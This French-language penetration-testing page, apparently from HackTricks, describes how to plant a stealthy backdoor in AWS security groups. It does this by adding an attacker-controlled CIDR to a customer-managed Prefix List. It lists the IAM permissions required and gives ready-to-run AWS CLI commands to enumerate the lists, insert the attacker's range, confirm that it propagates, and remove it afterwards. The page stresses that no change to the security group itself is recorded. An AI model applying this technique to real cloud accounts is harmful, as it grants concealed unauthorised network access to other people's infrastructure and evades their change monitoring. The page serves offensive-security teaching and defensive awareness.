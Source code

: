 # AWS - Security Group Backdoor via Managed Prefix Lists

{{#include ../../../../banners/hacktricks-training.md}}

## Résumé
Exploiter les customer-managed Prefix Lists pour créer un accès furtif. Si une security group (SG) rule référence une managed Prefix List, toute personne ayant la capacité de modifier cette liste peut ajouter silencieusement des CIDRs contrôlés par l'attaquant. Chaque SG (et potentiellement Network ACL ou VPC endpoint) qui référence la liste autorise immédiatement les nouvelles plages sans aucun changement visible dans le SG.

## Impact
- Extension instantanée des plages IP autorisées pour tous les SG référencant la Prefix List, contournant les contrôles de changement qui ne surveillent que les modifications de SG.
- Permet des backdoors persistants d'ingress/egress : garder le CIDR malveillant caché dans la Prefix List tandis que la SG rule semble inchangée.

## Prérequis
- IAM permissions:
- `ec2:DescribeManagedPrefixLists`
- `ec2:GetManagedPrefixListEntries`
- `ec2:ModifyManagedPrefixList`
- `ec2:DescribeSecurityGroups` / `ec2:DescribeSecurityGroupRules` (to identify attached SGs)
- Optional: `ec2:CreateManagedPrefixList` if creating a new one for testing.
- Environnement : Au moins une SG rule référencant la customer-managed Prefix List ciblée.

## Variables
```bash
REGION=us-east-1
PREFIX_LIST_ID=<pl-xxxxxxxx>
ENTRY_CIDR=<attacker-cidr/32>
DESCRIPTION="Backdoor – allow attacker"
```
## Étapes d'attaque

1) **Énumérer les prefix lists candidates et les consommateurs**
```bash
aws ec2 describe-managed-prefix-lists \
--region "$REGION" \
--query 'PrefixLists[?OwnerId==`<victim-account-id>`].[PrefixListId,PrefixListName,State,MaxEntries]' \
--output table

aws ec2 get-managed-prefix-list-entries \
--prefix-list-id "$PREFIX_LIST_ID" \
--region "$REGION" \
--query 'Entries[*].[Cidr,Description]'
```
Utilisez `aws ec2 describe-security-group-rules --filters Name=referenced-prefix-list-id,Values=$PREFIX_LIST_ID` pour confirmer quelles règles SG dépendent de la liste.

2) **Ajouter le CIDR de l'attaquant à la prefix list**
```bash
aws ec2 modify-managed-prefix-list \
--prefix-list-id "$PREFIX_LIST_ID" \
--add-entries Cidr="$ENTRY_CIDR",Description="$DESCRIPTION" \
--region "$REGION"
```
3) **Valider la propagation vers les groupes de sécurité**
```bash
aws ec2 describe-security-group-rules \
--region "$REGION" \
--filters Name=referenced-prefix-list-id,Values="$PREFIX_LIST_ID" \
--query 'SecurityGroupRules[*].{SG:GroupId,Description:Description}' \
--output table
```
Le trafic en provenance de `$ENTRY_CIDR` est désormais autorisé partout où la prefix list est référencée (généralement dans les règles sortantes des proxies de sortie ou les règles entrantes des services partagés).

## Preuves
- `get-managed-prefix-list-entries` reflète le CIDR de l'attaquant et la description.
- `describe-security-group-rules` affiche toujours la règle SG originale faisant référence à la prefix list (aucune modification du SG enregistrée), et pourtant le trafic provenant du nouveau CIDR passe.

## Nettoyage
```bash
aws ec2 modify-managed-prefix-list \
--prefix-list-id "$PREFIX_LIST_ID" \
--remove-entries Cidr="$ENTRY_CIDR" \
--region "$REGION"
```
{{#include ../../../../banners/hacktricks-training.md}}
